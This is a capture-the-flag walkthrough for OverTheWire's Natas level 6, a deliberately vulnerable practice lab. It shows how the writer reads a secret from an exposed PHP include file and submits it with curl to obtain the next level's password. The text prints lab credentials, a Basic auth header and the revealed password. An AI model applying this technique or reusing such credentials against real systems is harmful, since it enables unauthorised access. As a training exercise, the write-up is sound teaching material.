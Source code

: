 # BANDIT LEVEL 6

```
http://overthewire.org/wargames/natas/natas6.html
```

```
Username: natas6
Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
URL:      http://natas6.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

The page invites us to "view source", so let's!

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We see a small snippet of code that does a check against the submitted input
field with a variable `$secret`. We also see that there is another source file
included `secret.inc`.  Inside that source file we see where our variable
`$secret` is defined..

```
http://natas6.natas.labs.overthewire.org/includes/secret.inc

<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Going back to the main page, we try entering a test value of `test` and observe
that the page submits the following FORM DATA to the server.

```
secret=test&submit=Submit
```

Now let's insert the value for `$secret` we found in the source..

```
#! /bin/bash

$ curl 'http://natas6.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXM2OmFHb1k0cTJEYzZNZ0RxNG9MNFl0b0t0eUFnOVBlSGEx' --data 'secret=FOEIUWGHFEEUHOFUOIU&submit=Submit'
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
